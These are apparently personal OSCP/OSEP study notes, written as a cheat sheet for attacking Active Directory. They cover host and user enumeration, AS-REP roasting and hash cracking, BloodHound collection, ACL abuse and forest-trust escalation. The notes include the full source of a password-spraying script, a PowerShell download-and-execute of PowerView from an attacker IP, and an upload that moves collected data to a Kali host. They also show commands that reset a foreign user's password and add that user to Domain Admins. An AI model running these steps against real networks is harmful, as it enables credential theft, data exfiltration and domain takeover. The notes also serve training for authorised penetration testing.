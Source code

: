 # Enumeration

<details>

<summary>Enumerate Domain Hosts</summary>

```powershell
# To generate /etc/hosts entries
nxc smb 172.16.155.0/24 --generate-hosts-file hosts.txt

# Double-check to ensure all hosts are included (eg: SMB not enabled)
nxc winrm 172.16.155.0/24
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# Using PowerView to double-check
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')
Get-NetComputer | select operatingsystem, dnshostname
nslookup <hostname>
```

</details>

<details>

<summary>PowerView</summary>

Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Hostnames & IPs of Computers

```powershell
Get-DomainComputer -Domain ops.comply.com  | select name, dnshostname, operatingsystem
```

```bash
nslookup jump09.ops.comply.com

#Name:    jum09.ops.comply.com
#Address:  172.16.218.167
```

### Enumerate Users

```powershell
Get-NetUser | select samaccountname, lastlogon
```

### Enumerate Groups

* Able to show nested groups (unlike `net groups`)

```powershell
Get-NetGroup | select samaccountname
```

### Enumerate OS of Domain hosts

```powershell
Get-NetComputer | select operatingsystem, dnshostname
```

### Resolves Domain Name to IP address

```powershell
Resolve-IPAddress CLIENT76.corp.com
```

### Tests if current account has localadmin access to domain hosts

```powershell
Find-LocalAdminAccess
```

### View if someone logs into the box

* Might not work if running newer versions of Windows

```powershell
Get-NetSession -ComputerName files04 -verbose
```

#### OR, Use PsLoggedon

```powershell
.\PsLoggedon.exe \\client74
```

</details>

<details>

<summary>AS-REP Roasting</summary>

### Generate list of potential usernames

```bash
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python2.7 usernamer.py -f full_names.txt > potential_usernames.txt
```

### Kerbrute

* `--downgrade` so it is in a format that hashcat can crack
* Can use `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt` if don't know wordlist

```bash
git clone https://github.com/ropnop/kerbrute.git
go build
kerbrute --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL --hash-file hashes.txt --downgrade userenum potential_usernames.txt
```

### Impacket-GetNPUsers

```bash
impacket-GetNPUsers -usersfile usernames -dc-ip 10.10.10.161 htb.local/
```

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

### Cracking Hashes

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>BloodHound</summary>

```bash
# Generate JSON files
python3 -m bloodhound -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.165.122 --zip

neo4j console
```

Search bloodhound in Apps and open --> load in the jsons (Upload Data).

Upload completed --> Search "SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL" --> Node Info --> First Degree Object Control (under Outbound Object Control) --> To see items that this user has rights over

Go hamburger menu and click analysis --> Start from the bottom of the entire list.

### OR Use SharpHound.exe to collect data for BloodHound

The following will generate `20230425015352_BloodHound.zip`

```bash
SharpHound.exe -c all
# If LDAP Auth Error:
 .\sharphound.exe --ldapusername marcus --ldappassword P@ssw0rd123!

# OR
Import-Module ..\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputPrefix "corp_audit"
```

Transfer files to Kali [https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

```powershell
PS C:\temp> (New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.231.175]
└─# python3 SimpleHTTPServerWithUpload.py 80
Serving HTTP on localhost port 80 (http://localhost:80/) ...
(True, "<br><br>'/home/kali/Documents/pg_practice/192.168.231.175/20230425015352_BloodHound.zip'", 'by: ', ('192.168.231.175', 49993))
192.168.231.175 - - [25/Apr/2023 05:13:14] "POST / HTTP/1.1" 200 -
```

Start `neo4j start` and start `bloodhound`

Upload the zip file to ![](<../.gitbook/assets/image (13) (1).png>)

</details>

<details>

<summary>Object Permissions</summary>

* Access control lists has access control elements&#x20;



* GenericAll: Full permissions on object (change user's password, add to group)&#x20;
* GenericWrite: Edit certain attributes on the object&#x20;
* WriteOwner: Change ownership of the object&#x20;
* WriteDACL: Edit ACE's applied to object&#x20;
* AllExtendedRights: Change password, reset password, etc.&#x20;
* ForceChangePassword: Password change for object&#x20;
* Self (Self-Membership): Add ourselves to for example a group

### Powerview

#### Find GenericAll permissions on Management Department group

<pre class="language-powershell"><code class="lang-powershell">Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts the SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-21-1987370270-658905905-1781884369-1104", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
# CORP\Domain Admins
# CORP\stephanie
<strong># BUILTIN\Account Operators
</strong># Local System
# CORP\Enterprise Admins
</code></pre>

#### Find GenericAll permissions on Jen user

```powershell
Get-ObjectAcl -Identity "jen" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

</details>

<details>

<summary>User's Domain Privileges</summary>

```bash
net user <username> /domain
```

</details>

<details>

<summary>Groups Enumeration</summary>

```
net group /domain
```

* However, `net.exe` does not show nested groups.

Listing all the groups in a domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
<#
Foreach($obj in $Result)
{
    $obj.Properties.member
}
#>
```

</details>

<details>

<summary>Currently Logged On Users</summary>

* Find logged on users in the high-value groups since their creds will be cached in memory

```powershell
Import-Module .\PowerView.ps1
```

* The following command invokes `NetWkstaUserEnum`, which requires administrative permissions and returns the list of all users logged on to a target workstation.

```powershell
Get-NetLoggedon -ComputerName client251
```

* The following command invoke `NetSessionEnum`, which can be used from a regular domain user and returns a list of active user sessions on servers.

```powershell
Get-NetSession -ComputerName dc01
```

</details>

<details>

<summary>Service Principal Names (SPN) Enumeration</summary>

* SPN is used to associate a service on a specific server to a service account in Active Directory.

- Service accounts may also be members of high value groups

* Some apps may use a set of predefined service accounts like LocalSystem, LocalService, and NetworkService. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

The following script searches for the string `http`, which indicates the presence of a registered web server.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

```sh
nslookup CorpWebServer.corp.com
```

</details>

<details>

<summary>Account Policy</summary>

```
net users
```

* The Lockout observation window means that after X minutes of the last login attempt, user will be given 3 more login attempts.

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

* The following is `Spray-Passwords.ps1`

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }
    
    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

</details>

<details>

<summary>Impacket Look Up SID</summary>

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

</details>

<details>

<summary>Anonymous LDAP User Enumeration</summary>

```bash
python3 windapsearch.py -d forest.htb.local --custom "objectClass=*"
```

</details>

## OSEP Notes below

<details>

<summary>Enumerating Access Rights</summary>

* See what AD object has access rights to the "offsec" user
  *   ```powershell
      . .\powerview.ps1
      Get-ObjectAcl -Identity offsec  
      ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
      ```


* Command that resolve the SID through ConvertFrom-SID
  * ```powershell
    Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
    ```

</details>

<details>

<summary>Enumerating GenericAll Rights </summary>

* Enumerate all domain users that our current account has GenericAll rights to
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```



      <figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption><p><br></p></figcaption></figure>


* Enumerate all domain groups that current account has GenericAll rights to
  *   ```powershell
      Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating WriteDACL</summary>

* Grants permission to modify the DACL itself
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating GenericWrite</summary>

*   ```powershell
    Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
    ```

    <figure><img src="../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumeration in AD Forest</summary>

```powershell
nltest /trusted_domains
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

### Powerview

```powershell
# Uses LDAP to query trust details
Get-DomainTrust
# Uses Netlogon API to query trust details (More info)
Get-DomainTrust -API
# Enum users in corp1.com domain
Get-DomainUser -Domain corp1.com 
    # Find accounts that belong to the enterprise administrator grp
    Get-DomainUser -Domain corp1.com | where memberof -match "Enterprise Admins"
# Enum groups in corp1.com domain
Get-DomainGroup -Domain corp1.com | Select samaccountname
```

</details>

<details>

<summary>Enumerating Forest Trusts</summary>

* Get all trust relationships for current forest
  *   ```powershell
      ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
      ```


* Enumerating Forest Trusts Using PowerView
  *   ```powershell
      Get-ForestTrust
      Get-DomainTrust -Domain corp1.com
      ```


* Automating Forest Trust Enumeration with PowerView
  *   ```powershell
      Get-DomainTrustMapping
      ```


* Identifying Foreign Group Membership
  * User from another domain or forest that is a member of a group inside the target forest
  *   ```powershell
      Get-DomainForeignGroupMember -Domain corp2.com
      Convert-SidToName S-1-5-21-1416213050-106196312-571527550-1107
      # complyedge\jim 
      ```


* Change Password of said account & add it to Domain Admin group so we can access it from our DC host
  *   ```powershell
      net user jim P@ssw0rd /domain
      net group "Domain Admins" jim /add /domain
      runas /user:complyedge\jim powershell
      ```


* In new Powershell Window as jim:
  * ```powershell
    certutil -urlcache -f http://192.168.45.160/psexec_64.exe psexec_64.exe
    .\psexec_64.exe \\file06.ops.comply.com cmd
    ```

</details>

